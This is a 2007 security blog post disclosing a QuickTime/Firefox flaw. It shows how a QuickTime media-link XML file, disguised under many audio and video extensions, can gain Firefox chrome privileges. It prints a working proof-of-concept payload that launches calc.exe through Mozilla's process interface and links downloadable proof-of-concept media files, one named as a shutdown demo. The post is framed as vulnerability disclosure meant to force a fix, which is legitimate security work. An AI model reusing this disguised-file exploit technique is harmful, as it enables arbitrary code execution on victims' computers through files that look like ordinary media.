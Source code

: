 ```yaml
---
title: 0DAY QuickTime pwns Firefox
author: pdp
date: Wed, 12 Sep 2007 12:05:53 GMT
template: post.pug
category: fucked
---
```


It seams that QuickTime media formats can cause Firefox to misbehave. The result of this vulnerability can lead to full compromise of the browser.

Before we move on, I have to say a few things. Last year I disclosed two QuickTime vulnerabilities [here](/blog/backdooring-quicktime-movies/) and [here](/blog/backdooring-mp3-files/). The first vulnerability was fixed but the second one was completely ignored. I tried to bring the spot light on the second vulnerability one more time over [here](/blog/myspace-quicktime-worm-follow-up) without much of success. So, I decided to post a demonstration of how a _Low risk_ issue can be turned into a very easy to perform **HIGH risk** attack when technology change.

The exploit is rather simple. But first, here is a simple QTL file which instructs the browser to display a friendly `alert('whats up...')` message on the screen:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="presentation.mov" autoplay="true" qtnext="javascript:alert('whats up...')"/>
```

The most interesting thing about this simple XML file is that we can save it with QuickTime supported extension in order to mislead the user. If you check [about:plugins](about:plugins) under Firefox,  you will see that QuickTime supports several media formats. We can use the audio and video formats only. This means that you can paste the above code into files with extensions: `3g2, 3gp, 3gp2, 3gpp, AMR, aac, adts, aif, aifc, aiff, amc, au, avi, bwf, caf, cdda, cel, flc, fli, gsm, m15, m1a, m1s, m1v, m2a, m4a, m4b, m4p, m4v, m75, mac, mov, mp2, mp3, mp4, mpa, mpeg, mpg, mpm, mpv, mqv, pct, pic, pict, png, pnt, pntg, qcp, qt, qti, qtif, rgb, rts, rtsp, sdp, sdv, sgi, snd, ulw, vfw, wav` and others.

Enough theory, let's see some action. For more information, just read [this](/blog/backdooring-mp3-files/) blog post. The exploit that gains chrome privileges looks like this:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="a.mp3" autoplay="true" qtnext="-chrome javascript:file=Components.classes['@mozilla.org/file/local;1'].createInstance(Components.interfaces.nsILocalFile);file.initWithPath('c:\\windows\\system32\\calc.exe');process=Components.classes['@mozilla.org/process/util;1'].createInstance(Components.interfaces.nsIProcess);process.init(file);process.run(true,[],0);void(0);"/>
```

In practice I can do anything with the browser. However, just for the sake of this demonstration, I simply open **calc.exe**.

If you dare to try this in your browser, here is a list of a few files you have to click on. They are not malicious. You have my word: [qt-poc-01.mp3](/files/2007/09/qt-poc-01.mp3), [qt-poc-02-shutdown-dont-click.mp3](/files/2007/09/qt-poc-02-shutdown-dont-click.mp3), [qt-poc-03.mpeg](/files/2007/09/qt-poc-03.mpeg), [qt-poc-04.mov](/files/2007/09/qt-poc-04.mov), [qt-poc-05.avi](/files/2007/09/qt-poc-05.avi).

_BTW, QuickTime comes by default with iTunes. Therefore, iTunes users are most affected, I believe._
